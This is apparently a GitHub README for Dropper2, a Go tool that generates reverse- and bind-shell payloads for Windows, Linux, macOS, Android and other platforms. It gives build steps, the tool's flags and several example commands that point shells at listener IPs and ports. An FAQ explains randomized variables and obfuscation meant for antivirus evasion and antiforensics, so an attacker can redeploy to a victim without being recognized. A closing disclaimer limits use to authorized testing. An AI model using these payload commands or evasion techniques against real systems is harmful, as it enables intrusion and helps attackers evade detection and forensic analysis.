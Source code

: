 Dropper2 (now with more R@nd0m!)

As with the initial release of <a href="https://github.com/im4x5yn74x/dropper">Dropper</a>, navigate to your <a href="https://github.com/golang/go/wiki/SettingGOPATH">GOPATH</a> on your system and clone the repo using the `go get` command.

<code>go get github.com/im4x5yn74x/dropper2</code>

Navigate to the new `github.com/im4x5yn74x/dropper2` folder and build Dropper2 to begin generating payloads.

<code>go build dropper2.go</code><br>

<code>./dropper2 -h</code>
<pre>
Usage of ./dropper2:
  -a string
	Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
  -l string
	Listening host: <listening ip:port>
  -o string
	Output filename: <anything goes>
  -p string
	Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
  -s string
	Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh, /bin/busybox, bypass
  -t string
	Payload type: bind/reverse
</pre>
 
<h3>Payload generation examples:</h3>

<code>./dropper2 -a 386 -o bypassturkey -p windows -l 192.168.1.112:446 -s bypass -t reverse</code>

<code>./dropper2 -a arm -o lateNightTacos -p linux -l 10.0.0.25:4433 -s /bin/busybox -t reverse</code>

<code>./dropper2 -a amd64 -o browngravy -p windows -l 0.0.0.0:9090 -s powershell -t bind</code>

<code>./dropper2 -a mips64 -o cheeseburgers -p linux -l 0.0.0.0:31337 -s /bin/busybox -t bind</code>

<code>./dropper2 -a amd64 -o applebutter -p darwin -l 17.253.144.10:584 -s /bin/sh -t reverse</code>

<code>./dropper2 -a arm -o trapspot -p android -l 25.128.34.6:443 -s /system/bin/sh -t reverse </code>*<h5>(*NOTE: Only works on <a href="https://termux.com/">Termux</a> for Android)</h5>

<h3>FAQ</h3>
<li>What's New with Dropper2?</li>
<ul>- Dropper2 now supports variable randomization within each payload generated.</ul>
<ul>- Dropper2 also uses obfuscation to disguise both the listening host and port as well as built-in Golang artifacts such as where the payload file is written to be compiled.</ul>
<li>What's the reasons for these changes?</li>
<ul>- Antivirus evasion and antiforensics.</ul>
<li>but why tho'...?</li>
<ul>- During forensic analysis of the binaries generated by Dropper 1.0, my team and I discovered artifacts stored within each Golang binary compiled for every platform. These artifacts included certain string values such as your listening IP address and the port used to connect, your shell type provided (/bin/sh, cmd.exe, etc...) as well as the path to the Golang file you compiled. This information could not only inform forensics engineers where you compiled your tool (a.k.a. your GOPATH most likely), but through the use string analysis, they could easily infer as to what the binary's true intentions may be. (10.0.0.100:1337 /bin/sh; Hmmm, I wonder what it could be doing...)

Realistically, these changes need to be implemented in not only Dropper but within Golang itself, especially for penetration testers and privacy conscious individuals who don't want or can't afford to share intimate information regarding their software. That being said, the use of obfuscation came into the mix to help solve the same problem.</ul>
<li>Ok so what do you mean by "R@nd0m", exactly?</li>
<ul>- Again, while reviewing the previous payloads generated by Dropper 1.0, I had noticed the "Windows" binaries that were generated had the tendency of having the same signature no matter how many times I would recreate the binary. Even changing the name of the payload didn't seem to help the matter much either. Thus something needed to be done during the compilation process. The solution came when I had reviewed different randomization algorithms on the <a href="https://play.golang.org/p/KcuJ_2c_NDj">Go Playground</a>, leading me to choose one that could produce the quickest random value while using the most entropy. The use of this function within Dropper2 now allows each variable written into the generated payloads to be a unique value and effectivly creating a random binary signature everytime; thus allowing an attacker to drop the same payload on a victim's system while appearing brand new each time in the eyes of the antivirus.</ul>
<li>Alright, but is it fool-proof; meaning could it still get caught by antivirus?</li>
<ul>- The short answer is: It depends on the current security policies in place on any given system. In a situation where the compromised system has certain group policy rules such as blocking a user from downloading `unknown` binaries from the internet, then the attacker needs to get a bit more creative. Dropper 1 & 2 binaries were never intended to be the "one payload to defeat them all", but to simply generate reverse and bind shell payloads for multiple platforms and hide as much evidence possible regarding their actual intended purpose.

I understand that wasn't exactly the shortest answer, however any security professional knows there are multiple ways to bypass system policy restrictions and industry standard antivirus. For everyone else who doesn't know; at least you get a unique binary each time that you can try to hit them again with in the event you get caught the first time. Again, use your own professional judgment before running random binarys on targeted systems.</ul>
<li>Ok M4x, we're following you. So what about the future of Dropper? Anything up and coming we should know about?</li>
<ul>- Of course there is. It's an active project I've been adding to anytime I either learn cool tricks to implement or I learn more efficiant ways to write my code. Some teasers for future ideas include:</ul>
<ul>* TLS/SSL support<br>
* UDP and IPv6 support<br>
* Blah-blah-blah...(What kind of hacker would I be if I told you all of my secret plans?)</ul>

<li>Are you still learning Golang?</li>
<ul>- Aren't we all?</ul>
<li>Do you have a disclaimer for us?</li>
<ul>- YOU BET I DO!</ul>

<h3>Disclaimer</h3>
This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. <b>DO NOT USE</b> this tool for ILLEGAL purposes or <b>WITHOUT</b> the <b><u>CONSENT</u></b> from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for <u>security consultation</u> or <u>research purposes.</u> I, hereby relinquish <b><u>ALL</u></b> responsiblity for any illegal use of this tool or <b><u>ANY</u></b> binary payloads subsequently generated by the tool as discribed. <b>You have been warned.</b>
